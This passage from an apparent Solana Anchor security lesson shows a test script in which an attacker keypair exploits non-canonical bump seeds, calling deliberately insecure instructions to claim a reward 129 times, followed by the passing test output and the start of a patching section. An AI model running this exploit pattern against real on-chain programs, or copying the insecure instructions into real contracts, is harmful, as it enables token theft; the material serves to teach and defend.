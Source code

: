 ```typescript
        .createUserInsecure(i)
        .accounts({
          user: pda,
          payer: attacker.publicKey,
        })
        .signers([attacker])
        .rpc();
      await program.methods
        .claimInsecure(i)
        .accounts({
          user: pda,
          mint,
          payer: attacker.publicKey,
          userAta: ataKey,
        })
        .signers([attacker])
        .rpc();

      numClaims += 1;
    } catch (error) {
      if (error.message !== "Invalid seeds, address must fall off the curve") {
        console.log(error);
      }
    }
  }

  const ata = await getAccount(provider.connection, ataKey);

  console.log(
    `Attacker claimed ${numClaims} times and got ${Number(ata.amount)} tokens`,
  );

  expect(numClaims).to.be.greaterThan(1);
  expect(Number(ata.amount)).to.be.greaterThan(10);
});
```

Run `anchor test` to see that this test passes, showing that the attacker is
successful. Since the test calles the instructions for every valid bump, it
takes a bit to run, so be patient.

```bash
  bump-seed-canonicalization
Attacker claimed 129 times and got 1290 tokens
    ✔ Attacker can claim more than reward limit with insecure instructions (133840ms)
```

#### 3. Create secure instructions

Let's demonstrate patching the vulnerability by creating two new instructions:

1. `create_user_secure`
2. `claim_secure`
